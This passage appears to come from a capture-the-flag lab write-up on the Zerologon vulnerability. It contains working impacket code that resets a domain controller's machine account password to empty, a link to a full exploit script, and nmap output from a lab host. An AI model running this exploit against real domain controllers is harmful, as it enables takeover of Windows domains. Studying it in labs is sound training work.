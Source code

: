 As expected, most of the field names are the same as what Microsoft provided, except with some differences. Next, we need to know how to structure the Authenticator portion as well:

```python

class NETLOGON_AUTHENTICATOR(NDRSTRUCT):
    structure = (
        ('Credential', NETLOGON_CREDENTIAL),
        ('Timestamp', DWORD),
    )
```

The format here is a little bit different compared to the prior, but we'll adjust accordingly when we go to slot it into the PoC, but while we're talking about slotting it into the PoC, where will our added code go?

Our added code will go immediately before "return rpc_con" on line 45. This is where we know we have successful authentication, we want to grab that before we return to the previous function and terminate the RPC connection. Now that we know all the required information that we'll need to add to the PoC, we'll save you the painstaking effort of writing your own code, and you can use the pre-written code below. The above explanations should help aid in understanding it.

**The Additional Code we're slotting in:**
```python
    newPassRequest = nrpc.NetrServerPasswordSet2()
    newPassRequest['PrimaryName'] = dc_handle + '\x00'
    newPassRequest['AccountName'] = target_computer + '$\x00'
    newPassRequest['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
    auth = nrpc.NETLOGON_AUTHENTICATOR()
    auth['Credential'] = b'\x00' * 8
    auth['Timestamp'] = 0
    newPassRequest['Authenticator'] = auth
    newPassRequest['ComputerName'] = target_computer + '\x00'
    newPassRequest['ClearNewPassword'] =  b'\x00' * 516
    rpc_con.request(newPassRequest)
```
At this point, your code should be good to go, and you should be able to successfully exploit Zero Logon. If you are still having issues, you can use the following code found here:

https://raw.githubusercontent.com/Sq00ky/Zero-Logon-Exploit/master/zeroLogon-NullPass.py


### Answers 
![Flag](https://raw.githubusercontent.com/anir0y/thm-notes/main/zerologon/img/Pasted%20image%2020210509234755.png)


---
## Lab it UP!

### Nmap Result 

```bash
sudo nmap -sC -sV -oA nmap/DC01HOLOLIVE 10.10.129.187 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-09 23:51 IST
Stats: 0:00:56 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.26% done; ETC: 23:52 (0:00:00 remaining)
Stats: 0:00:56 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.26% done; ETC: 23:52 (0:00:00 remaining)
Nmap scan report for 10.10.129.187
Host is up (0.16s latency).
Not shown: 987 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
```